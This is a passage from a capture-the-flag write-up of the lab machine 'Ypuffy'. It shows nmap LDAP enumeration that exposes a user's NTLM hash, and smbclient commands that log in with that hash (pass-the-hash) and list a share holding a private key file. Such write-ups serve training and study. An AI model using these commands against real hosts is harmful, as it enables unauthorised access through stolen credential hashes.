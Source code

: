
LDAP (Port 389)
---------------

I searched around for different ways to enumerate LDAP on a BSD host, and I found a few nmap scripts that would be helpful. I started with the module `ldap-search` which enumerates ldap for different directories within it. My syntax for this was `nmap -p 389 --script ldap-search 10.10.10.107` which returned something interesting:

```sh
     userPassword: {BSDAUTH}alice1978                                                                                                                            
     homeDirectory: /home/alice1978                                                                                                                              
     loginShell: /bin/ksh                                                                                                                                        
     displayName: Alice                                                                                                                                          
     sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B    
```

This looks to be an NTLM hash for SMB (which we also saw open on this host!). This is great, I kept following this trail. I then moved over to `smbclient` to try and see if I could get anything from this hash. Running `smbclient -U alice1978 --pw-nt-hash -L 10.10.10.107` provided some useful information below:

```sh
    Sharename       Type      Comment                                                                                                                            
    ---------       ----      -------                                                                                                                            
    alice           Disk      Alice's Windows Directory                                                                                                          
    IPC$            IPC       IPC Service (Samba Server)
```

Looks like we have the default IPC$ directory along with a custom directory. The arguement `--pw-nt-hash` allows you to enter an NTLM hash when prompted for a password when accessing the smb service, nifty!

Let's enumerate this `alice` share a bit more!


```sh
root@kali:~/Documents/htb/boxes/Ypuffy# smbclient -U alice1978 --pw-nt-hash \\\\10.10.10.107\\alice                                                            
Enter WORKGROUP\alice1978's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jul 30 22:54:20 2018
  ..                                  D        0  Tue Jul 31 23:16:50 2018
  my_private_key.ppk                  A     1460  Mon Jul 16 21:38:51 2018

                433262 blocks of size 1024. 411540 blocks available
smb: \> 
```
